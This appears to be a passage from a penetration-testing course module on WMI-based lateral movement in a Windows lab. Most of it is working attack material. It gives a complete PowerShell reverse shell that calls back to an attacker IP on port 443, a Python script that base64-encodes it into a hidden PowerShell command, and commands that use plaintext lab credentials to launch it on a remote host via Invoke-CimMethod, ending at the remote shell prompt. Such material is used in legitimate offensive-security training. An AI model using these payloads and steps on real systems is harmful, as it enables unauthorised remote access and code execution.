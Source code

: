 Figure 1: Inspecting The Task Manager

Info

The PID of win32calc.exe is different from the PID in Listing 1 because the PID in Listing 1 belongs to calc.exe. When the wmic command in Listing 1 runs, it creates the process of calc.exe, which starts another process win32calc.exe, then calc.exe exits, leaving win32calc.exe running.

To further improve our craft, let's replace the previous payload with a full reverse shell written in PowerShell.

First, we'll encode the PowerShell reverse shell, so we don't need to escape any special characters when inserting it as a WMI payload.

The following Python code encodes the PowerShell reverse shell to base64 contained in the *payload* variable and then prints the result to standard output.

Reviewing the entire PowerShell payload is outside the scope of this Module.

We need to replace the highlighted IP and port with the ones of our attacker Kali machine.

```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

> Listing 6 - Executing the WMI PowerShell payload.

Once we have saved the Python script, we can run it and retrieve the output to use later.

```
kali@kali:~$ python3 encode.py
powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAU...
OwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

> Listing 7 - Running the base64 encoder Python script

After setting up a Netcat listener on port 443 on our Kali machine, we can move on to client74 and run the PowerShell WMI script with the newly generated encoded reverse shell payload.

```
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> $Options = New-CimSessionOption -Protocol DCOM
PS C:\Users\jeff> $Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options

PS C:\Users\jeff> $Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';

PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname